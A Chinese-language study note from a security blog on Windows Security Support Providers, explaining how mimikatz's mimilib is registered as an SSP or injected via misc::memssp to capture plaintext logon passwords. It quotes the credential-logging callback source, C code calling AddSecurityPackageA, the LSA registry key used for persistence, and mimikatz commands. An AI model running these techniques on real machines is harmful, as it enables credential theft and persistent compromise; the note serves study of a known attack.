 ```yaml
---
title: SSP与mimilib
date: 2019-12-31 23:59:47 +0800
categories: [域安全, TA0006凭据访问]
tags: [mimikatz, ssp, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




学习了以下文章，整理SSP相关笔记:

[Mimikatz中SSP的使用](https://3gstudent.github.io/3gstudent.github.io/Mimikatz%E4%B8%ADSSP%E7%9A%84%E4%BD%BF%E7%94%A8/)

[深入分析Mimikatz：SSP](https://www.anquanke.com/post/id/180001#h2-1)

[Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)



## SSPI&SSP

![img](/assets/img/1963614-20200422220757960-542959289.png)

- SSPI(Security Support Provider Interface)

这是 Windows 定义的一套接口，此接口定义了与安全有关的功能函数， 用来获得验证、信息完整性、信息隐私等安全功能，就是定义了一套接口函数用来身份验证，签名等，但是没有具体的实现。

- SSP(Security Support Provider)

 SSPI 的实现者，对SSPI相关功能函数的具体实现。微软自己实现了如下的 SSP，用于提供安全功能：

1. NTLM SSP: msv1_0.dll
2. Kerberos: kerberos.dll
3. Cred SSP
4. Digest SSP
5. Negotiate SSP
6. Schannel SSP
7. Negotiate Extensions SSP
8. PKU2U SSP

在系统层面，SSP就是一个dll，来实现身份验证等安全功能，实现的身份验证机制是不一样的。比如 NTLM SSP 实现的就是一种 Challenge/Response 验证机制。而 Kerberos 实现的就是基于 ticket 的身份验证机制。我们可以编写自己的 SSP，然后注册到操作系统中，让操作系统支持更多的自定义的身份验证方法。



## SSP的实现-mimilib

mimikatz中的[mimilib](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/mimilib.def)可以作为一个SSP来使用，mimilib通过模块定义文件.def声明了一堆导出函数，其中就有`SpLsaModeInitialize`。

```
SpLsaModeInitialize		=	kssp_SpLsaModeInitialize
```

`SpLsaModeInitialize`是SSP的初始化函数，由LSA加载自己时调用。`SpLsaModeInitialize`的主要功能是给参数*ppTables*赋值，用于告诉LSA各个回调函数的地址；*ppTables* 指向[SECPKG_FUNCTION_TABLE](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_function_table)结构体，LSA需要SSP实现的函数指针都包含在此结构体内。

![image-20201018135645727](C:\Users\DELL\AppData\Roaming\Typora\typora-user-images\image-20201018135645727.png)

mimilib SSP就实现了`SpLsaModeInitialize`及以下4个回调函数，相关实现都在[kssp.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kssp.c)

```
SpInitialize：用来初始化SSP，提供一个函数指针列表。
SpShutDown：卸载SSP时就会被调用，以便释放资源。
SpGetInfoFn：提供SSP相关信息，包括版本、名称以及描述。
SpAcceptCredentials：接收LSA传递的明文凭据，以便SSP缓存。
```

可以看到 kssp_SpAcceptCredentials 内部实现就是将获取到的明文凭据写到kiwissp.log中，认证结果直接访问Success。

```
NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	FILE *kssp_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kssp_logfile = _wfopen(L"kiwissp.log", L"a"))
#pragma warning(pop)
	{	
		klog(kssp_logfile, L"[%08x:%08x] [%08x] %wZ\\%wZ (%wZ)\t", PrimaryCredentials->LogonId.HighPart, PrimaryCredentials->LogonId.LowPart, LogonType, &PrimaryCredentials->DomainName, &PrimaryCredentials->DownlevelName, AccountName);
		klog_password(kssp_logfile, &PrimaryCredentials->Password);
		klog(kssp_logfile, L"\n");
		fclose(kssp_logfile);
	}
	return STATUS_SUCCESS;
}
```



## 操作SSP

### 遍历 

**EnumerateSecurityPackagesA**

```
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")

int main(int argc, char **argv) {
	ULONG packageCount = 0;
	PSecPkgInfoA packages;

	if (EnumerateSecurityPackagesA(&packageCount, &packages) == SEC_E_OK) {
		for (int i = 0; i < packageCount; i++) {
			printf("Name: %s\nComment: %s\n\n", packages[i].Name, packages[i].Comment);
		}
	}
}
```



### 注册

方法1: 添加注册表后重启生效

在`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\Security Packages`中加入`mimilib.dll`的路径

不需要将mimilib.dll拷贝到system32目录下，路径中不包含空格就可以



方法2: 调用AddSecurityPackage

这种方法立即能生效，但为了驻留还是需要添加上述注册表，以防重启后失效。Empire中的Install-SSP.ps1就实现了这一过程。

```
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")


int main(int argc, char **argv) {
	SECURITY_PACKAGE_OPTIONS option;
	option.Size = sizeof(option);
	option.Flags = 0;
	option.Type = SECPKG_OPTIONS_TYPE_LSA;
	option.SignatureSize = 0;
	option.Signature = NULL;
	SECURITY_STATUS SEC_ENTRYnRet = AddSecurityPackageA(argv[1], &option);
	printf("AddSecurityPackage return with 0x%X\n", SEC_ENTRYnRet);
}
```

注: `DeleteSecurityPackageA`删除SSP不起作用，可用3gStudent的[FreeDll](https://github.com/3gstudent/Homework-of-C-Language/blob/master/FreeDll.cpp)卸载mimilib.dll，见[FreeDll_x64.exe](tools\FreeDll_x64.exe) 



方法3: RPC通知lsass加载SSP

没太看懂，POC没编译成功，大概原理是AddSecurityPackage的内部实现也是通过RPC调用，所以XPN使用了这个方法



## misc::memssp

这种方法也可以dump 明文凭据，原理是hook msv1_0.dll`的`SpAcceptCredentials函数，将凭据写入mimilsa.log中。

这种方式下，hook代码通过WriteProcessMemory被拷贝到`lsass`中，对lsass进程做写操作容易被检测到；相比添加SSP的方法，不需要dll落地，不需要添加注册表；

```
privilege::debug
misc::memssp
```






